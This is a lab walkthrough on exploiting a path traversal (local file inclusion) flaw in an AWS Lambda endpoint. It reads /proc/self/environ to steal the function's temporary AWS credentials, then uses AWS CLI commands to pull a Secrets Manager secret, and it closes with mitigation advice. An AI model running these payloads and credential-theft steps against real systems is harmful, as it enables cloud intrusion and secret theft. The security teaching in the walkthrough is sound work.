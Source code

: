 # Access Secrets Manager via Lambda Function

## How to use the LFI (Local File Injection) vulnerability in a Lambda function to access AWS Secrets Manager.

**Core Concept: Exploiting LFI to Steal Lambda Credentials, Then Access Secrets Manager**

## Action plan:

1.  **LFI Vulnerability:**  The Lambda function powering the web application has a Local File Inclusion (LFI) vulnerability.  This means user-supplied input (the `employee_code` parameter) is used *unsafely* to construct a file path.
2.  **Leaking Environment Variables:**  By using path traversal (`../../..`) in the `employee_code`, we read the `/proc/self/environ` file. This file, in the context of a Lambda function, contains the function's environment variables. Critically, these include temporary AWS credentials (access key, secret key, session token) associated with the Lambda's IAM role.
3.  **Credential Abuse:**  We use the stolen AWS credentials to configure the AWS CLI.  This gives us the same permissions as the Lambda function's IAM role.
4.  **Secrets Manager Access:** The Lambda's IAM role has permissions to access a secret in AWS Secrets Manager.  Since we now have the Lambda's credentials, we can use the AWS CLI to retrieve the secret value (the flag).

**Step-by-Step Exploitation (Concise Version)**

1.  **Identify the Vulnerable Endpoint:** The `/find-employee` endpoint, accessed via a GET request with the `employee_code` parameter, is vulnerable. The provided lab URL is the starting point.

2.  **Confirm LFI (Initial Test):**
    *   Send a request with a simple path traversal payload:
        ```zsh
        GET /find-employee?employee_code=../../../../../../../../etc/passwd
        ```
    *   If the response contains the contents of `/etc/passwd` (e.g., "root:x:0:0:root:/root:/bin/bash"), LFI is confirmed. This proves you can read arbitrary files.

3.  **Leak Environment Variables (Critical Step):**
    *   Send a request to read the Lambda's environment variables:
        ```zsh
        GET /find-employee?employee_code=../../../../../../../../proc/self/environ
        ```
    *   The response will contain key-value pairs.  Look for:
        *   `AWS_ACCESS_KEY_ID`
        *   `AWS_SECRET_ACCESS_KEY`
        *   `AWS_SESSION_TOKEN`
        *   `SECRET_VALUE` (this is just an indicator, not the actual secret)

4.  **Configure AWS CLI (Credential Setup):**
    *   Use the stolen credentials to configure a new AWS CLI profile (e.g., named "lfi"):
        ```zsh
        aws configure --profile lfi
        ```
    *   Enter the `AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY`, and `AWS_SESSION_TOKEN` when prompted. Set the region to `us-east-1`.
    *   Set the session token:
        ```zsh
        aws configure --profile lfi set aws_session_token <SESSION_TOKEN>
        ```
    *   Verify the configuration:
        ```zsh
        aws sts get-caller-identity --profile lfi
        ```
        This should return information about the IAM role associated with the Lambda function.

5.  **Access Secrets Manager (Get the Flag):**
    *   List available secrets:
        ```zsh
        aws secretsmanager list-secrets --profile lfi
        ```
    *   Identify the relevant secret's `SecretId` from the output (it will likely be a UUID-like string).
    *   Retrieve the secret value:
        ```zsh
        aws secretsmanager get-secret-value --secret-id <SecretId> --profile lfi
        ```
        Replace `<SecretId>` with the actual ID from the previous step.
    *   The response will contain a `SecretString` field.  This is the flag.  Extract the value between the curly braces `{}`.

**Important Code Snippet Analysis (Vulnerable Parts)**

The Python snippet below highlights these key code sections as vulnerable:

*   **User Input:**
    ```python
    if method == "GET" and path == "/find-employee":
        employee_code = query_params.get("employee_code", "")
    ```
    This line directly takes the `employee_code` from the URL query parameter without *any* sanitization or validation. This is the root cause.

*   **Dynamic Filename:**
    ```python
    filename = f"/tmp/{employee_code}"
    ```
    The user-controlled `employee_code` is directly used to build the file path. This allows for path traversal.

*   **File Access:**
    ```python
    if os.path.exists(filename):
        with open(filename, "r") as f:
            profile_data = f.read()
        return _send_response(200, f"<pre>{profile_data}</pre>", "text/html")
    ```
    While `os.path.exists()` checks if the file exists, it doesn't prevent access to files outside the intended `/tmp` directory if path traversal is used.  We simply checks if the *resulting* path (after the attacker's manipulation) exists.

**Mitigation (Key Takeaways)**

The original text provides good mitigation strategies.  Here's a summary with a bit more emphasis:

1.  **Input Validation (Crucial):**
    *   **Whitelist:**  If possible, *only* allow specific, known-good values for `employee_code`.  For example, if employee codes are always numeric, validate that the input is a number within an expected range.  This is the *best* defense.
    *   **Blacklist (Less Effective):**  Avoid blacklisting.  Attackers can often find ways around blacklists (e.g., double encoding, URL encoding).
    *   **Sanitization:** If a whitelist isn't feasible, *strictly* sanitize the input.  Remove or escape any characters that could be used for path traversal (e.g., `/`, `\`, `..`).  Use a well-vetted library for sanitization; don't write your own.

2.  **Secure File Handling:**
    *   **Absolute Paths:**  Use absolute, hardcoded paths to the directory where employee files are stored.  *Never* construct file paths directly from user input.
    *   **Chroot Jail (Advanced):** In a more secure environment, you might consider running the Lambda function in a chroot jail, which restricts its file system access to a specific directory.  This is more complex to set up.

3.  **Principle of Least Privilege (IAM):**
    *   Ensure the Lambda function's IAM role has *only* the necessary permissions.  Don't grant excessive permissions.  In this case, the role needed access to Secrets Manager, but it shouldn't have access to other sensitive resources.

4.  **Avoid Storing Credentials in Environment Variables:**
    * Although the lab demonstrates this vulnerability, in a real world scenario, it's best to avoid storing credentials in environment variables, and use IAM roles to grant access to resources.